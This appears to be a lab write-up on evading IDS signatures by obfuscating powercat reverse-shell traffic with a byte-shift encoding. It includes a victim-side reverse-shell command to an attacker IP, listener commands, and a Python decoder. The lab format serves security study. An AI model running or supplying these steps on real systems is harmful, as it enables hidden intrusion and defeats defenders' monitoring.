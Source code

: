 # Bypassing IDS Signatures with Simple Reverse Shells

Most Intrusion Detection Systems \(IDS\) have signatures that can catch simple reverse shells going across the network. 

The thing that will get you flagged usually is the classic cmd prompt banner:

```text
listening on [any] 443 ...
connect to [192.168.2.79] from ws01 [192.168.2.149] 56079
Microsoft Windows [Version 10.0.17763.475]
(c) 2018 Microsoft Corporation. All rights reserved.
```

This can usually be bypassed relatively easily with some simple traffic obfuscation and this quick lab demonstrates just that.

{% hint style="danger" %}
**Warning**  
This technique is not meant to be used in real life red team operations!
{% endhint %}

## Environment and Setup

* Victim's Windows system capable of running powershell scripts
* Victim's system runs Powercat - netcat's Powershell implementation
* Attacker's Windows machine with a powercat listener
* Attacker's Linux machine with a netcat listener

## Execution - Encoding Responses

Since we want to obfuscate the outgoing traffic from the victim system to the attacking system, we need to obfuscate the responses generated by the reverse shell.

Let's modify powercat to achieve this. Int this lab, I will use a simple obfuscation technique - every ascii character will be shifted to the right by 1, so `a` will become `b`, `b->c`, `c->d` and so on, but base64 or any other encoding mechanisms could work.

In powercat.ps1, let's find the function `ReadData_CMD` and add a new line \(576 from the below graphic\):

```csharp
$Data = $Data | % {[byte]$_+1}
```

![](../../.gitbook/assets/annotation-2019-05-18-121935.png)

With the modified powercat, let's try establishing a reverse shell and catch it on the other end and see what happens:

```csharp
# victim
powercat -c 192.168.2.79 443 -e cmd

#attacker 
powercat -l -p 443 -v
```

Below shows the incoming reverse shell, but it's of course not readable since we shifted all the characters by one. Although this is enough to bypass IDS signatures relying on the cmd prompt banner crossing the network, the shell on itself is not very useful since we cannot read the results:

![](../../.gitbook/assets/annotation-2019-05-18-123445.png)

## Decoding Responses

We need to decode the responses by using the code we used earlier and make sure that we are now subtracting 1 rather than adding, so that `d` becomes `c`, `c->b`, `b->a` and so on:

```csharp
$Data = $Data | % {[byte]$_-1}
```

In powercat.ps1, find the function `WriteData_Console` and add the code just below the parameter declaration:

![](../../.gitbook/assets/annotation-2019-05-18-124925.png)

If we try establishing the reverse shell now, we can see it gets decoded nicely on the attacking system running powercat listener on Windows:

![](../../.gitbook/assets/annotation-2019-05-18-124837.png)

If we inspect the traffic, we confirm that the traffic is encoded:

![](../../.gitbook/assets/annotation-2019-05-18-130428.png)

## Decoding Responses in Linux

If we are listening for a shell in netcat on a Linux box with no powershell \(my kali was giving me a hard time trying to install powershell\), we need to hack together a filthy python loop that will do the decoding for us first:

{% code-tabs %}
{% code-tabs-item title="decode.py@kali" %}
```python
#!/usr/bin/python3
import os, time

global decoded
while 1:
    decoded = ""
    encodedFile = open("myfile", "rb+")
    i = 0
    last = ""
    encodedBytes = encodedFile.read()

    for byte in encodedBytes:
        if byte > 0 and byte <= 127:
            byte -= 1
        else:
            byte = 10

        if byte != last:
            decoded += chr(byte)
            last = byte
        i += 1

    if len(decoded) > 1:
        print(decoded)
    os.system("echo > myfile")
    time.sleep(1)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Let's launch the netcat listener on a linux box and pipe the output to `tee` so it can be put to a file `myfile`

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
nc -lvvp 443 | tee myfile
```
{% endcode-tabs-item %}
{% endcode-tabs %}

In another terminal, we need to launch the `decoder.py` which will read the `myfile` every second and will decode its content and wipe it:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
./decoder.py
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-18-132903.png)

We can now send the reverse shell back from the windows machine and see how it works:

* Right - a compromised Windows system that will send a reverse shell to the attacker using powercat
* Top left - the reverse shell comes in, responses are encoded. This is where we can issue commands
* Bottom left - reverse shell responses are decoded

![](../../.gitbook/assets/revshell.gif)


